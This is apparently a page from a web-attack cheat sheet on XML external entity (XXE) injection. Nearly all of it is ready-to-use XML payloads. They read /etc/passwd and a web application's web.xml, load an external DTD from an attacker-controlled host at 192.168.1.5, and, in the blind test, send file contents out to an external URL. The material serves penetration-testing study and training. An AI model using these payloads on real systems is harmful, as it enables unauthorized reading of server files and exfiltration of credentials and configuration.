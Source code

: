 ```xml
<?xml version="1.0"?>
<!DOCTYPE data [
	<!ELEMENT data ANY >
	<!ENTITY cat SYSTEM "file:///etc/passwd">
]>
<Contact>
<lastName>&cat;</lastName>
<firstName>Jerry</firstName>
</Contact>
```

## CDATA[#](https://trojand.com/cheatsheet/Web/XXE_Injection.html#cdata)

- XXE that can print XML files through the CDATA:
    
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///var/www/html/myapp/WEB-INF/web.xml" >
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://192.168.1.5:8000/wrapper.dtd" >
    %dtd;
    ]>
    <Contact>
    <lastName>&wrapper;</lastName>
    <firstName>FIRSTNAME_FILLER</firstName>
    </Contact>
    ```
    
- Inside the `wrapper.dtd` (the external DTD file)
    - Its purpose is just to wrap the variables(parameters) into
    
    ```xml
    <!ENTITY wrapper "%start;%file;%end;">
    ```
    
- **Exploitation**
    
    **LFI Test**
    
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
    ```
    
    **Blind LFI test (when first case doesn't return anything)**
    
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY % xxe SYSTEM "file:///etc/passwd">
    <!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
    ```
    
